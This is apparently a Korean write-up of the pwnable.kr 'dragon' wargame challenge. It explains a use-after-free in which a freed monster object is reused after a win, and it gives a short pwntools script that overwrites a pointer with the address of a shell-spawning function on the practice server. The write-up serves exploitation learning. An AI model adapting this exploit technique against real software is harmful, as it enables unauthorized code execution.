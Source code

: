 <img src="/picture/pwnable.kr/dragon_5.png" width="1000"/>

그리고 게임이 끝나면 PriestAttack함수에서 monster는 free가 된다. 근데 승리하면 FightDragon에서 이 free한걸 또 쓴다. 따라서 여기서 UAF가 터진다.<br>
이름 넣는공간의 첫번째 4byte에 SecretLevel함수에 있는 shell호출하는 부분의 주소를 넣으면 shell을 얻을 수 있다.

```python
from pwn import *

p = remote("pwnable.kr", 9004)
p.send(b'1\n' * 4 + b'3\n3\n2\n' * 4 + p32(0x08048dbf) + b'\n')
p.interactive()
```


```tip
## 알게 된 점

자료형 잘 보자.
```
